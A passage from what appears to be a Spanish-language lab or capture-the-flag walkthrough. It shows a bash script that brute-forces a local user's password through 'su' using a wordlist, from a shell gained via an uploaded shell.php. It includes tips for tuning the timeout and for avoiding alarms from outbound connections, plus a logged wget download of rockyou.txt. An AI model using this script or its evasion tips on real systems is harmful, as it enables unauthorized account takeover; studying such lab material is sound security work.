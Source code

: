 ```bash
    mostrar_ayuda
fi

# Imprimimos el banner al momento de realizar el ataque.
imprimir_banner

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```
Pero aquí vamos a tener que realizar un cambio que en un sistema con bajos recursos podría llegar a saturar más el sistema. Vamos a cambiar el `timeout 0.1` a `timeout 0.05`. Solamente en caso de falsos positivos o de sistema con bajos recursos volvería al **0.1** o incluso si hace falta a entre **0.5** y **1**.

¿Cómo lo vamos a subir? Pues vamos a subir tanto el diccionario como el script igual que como hemos subido el archivo **shell.php** o bien podríamos con **python abrir un servidor web** y con **wget** o **curl** descargar los archivos, pero esta segunda opción podría hacer saltar muchas alarmas al generar una conexión saliente y no entrante. Así pues, usaremos la opción más fácil y cómoda para también evitar problemas con permisos en los ficheros y directorios en los que trabajaremos.

Se ha tratado de subir al archivo rockyou.txt sin comprimir y da error al subir, supongo que por el tamaño máximo de trabajo configurado en el servidor web.

Alternativa:
```java
www-data@861ac52240d6:…/html/uploads# curl -s https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt -o rockyou.txt
sh: 1: curl: not found

www-data@861ac52240d6:…/html/uploads# wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
--2025-01-26 04:37:57--  https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139921497 (133M) [application/octet-stream]
Saving to: 'rockyou.txt'

     0K .......... .......... .......... .......... ..........  0% 1.89M 71s
    50K .......... .......... .......... .......... ..........  0% 3.65M 54s
   100K .......... .......... .......... .......... ..........  0% 19.1M 38s  
                                      [...]
136550K .......... .......... .......... .......... .......... 99%  224M 0s
136600K .......... .......... .......... .......... ..        100%  197M=2.4s

2025-01-26 04:38:00 (54.9 MB/s) - 'rockyou.txt' saved [139921497/139921497]


www-data@861ac52240d6:…/html/uploads# ls -la
total 136980
drwxr-xr-x 1 www-data www-data       124 Jan 26 04:39 .
```